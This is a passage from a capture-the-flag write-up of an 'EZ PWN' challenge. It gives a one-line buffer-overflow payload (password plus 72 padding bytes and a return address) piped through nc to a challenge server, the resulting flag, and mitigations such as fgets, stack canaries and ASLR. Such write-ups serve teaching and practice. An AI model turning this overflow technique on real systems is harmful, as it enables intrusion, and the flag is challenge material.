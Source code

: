 ### Manual Exploitation

For quick manual testing:
```bash
(echo "security123"; python3 -c "import sys; sys.stdout.buffer.write(b'A'*72 + b'\x96\x11\x01\x21\x00\x00\x00\x00')") | nc 203.154.91.221 5225
```

## Flag Capture

Running the exploit:

```
=== WELCOME TO EZ PWN CHALLENGE! ===
This challenge is created by ASEAN community
Enter password to access: 
Password correct! Accessing function...

=== TRIGGER_LAND FUNCTION ACTIVATED ===
>> Buffer contents: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��!

🏴‍☠️ FLAG CAPTURED! 🏴‍☠️
flag{16ee4ab95cf774231c94fcce1a81c586}
```

## Key Learning Points

### Technical Skills Demonstrated
1. **Static Analysis:** Using `file`, `strings`, and `objdump` for binary analysis
2. **Reverse Engineering:** Understanding assembly code and program flow
3. **Memory Layout:** Knowledge of stack frame structure and calling conventions
4. **Buffer Overflows:** Exploiting unsafe functions like `gets()`
5. **Return Address Hijacking:** Redirecting program execution flow

### Security Concepts
1. **Defense in Depth:** Multiple layers of security (password + proper input validation)
2. **Secure Coding:** Avoiding dangerous functions like `gets()`
3. **Stack Protection:** Modern binaries often include stack canaries and ASLR
4. **Code Review:** Importance of identifying potential vulnerabilities during development

### Tools and Techniques Used
- **Static Analysis:** `file`, `strings`, `objdump`
- **Dynamic Analysis:** Manual testing with `nc`
- **Exploitation:** Python scripting for payload generation
- **Debugging:** Iterative testing with different offsets

## Mitigation Strategies

To prevent this type of vulnerability:

1. **Use Safe Functions:** Replace `gets()` with `fgets()` or `scanf()` with proper bounds
2. **Input Validation:** Always validate input length and content
3. **Stack Canaries:** Compile with `-fstack-protector-all`
4. **ASLR:** Enable Address Space Layout Randomization
5. **DEP/NX:** Enable Data Execution Prevention
6. **Bounds Checking:** Use languages or tools that provide automatic bounds checking
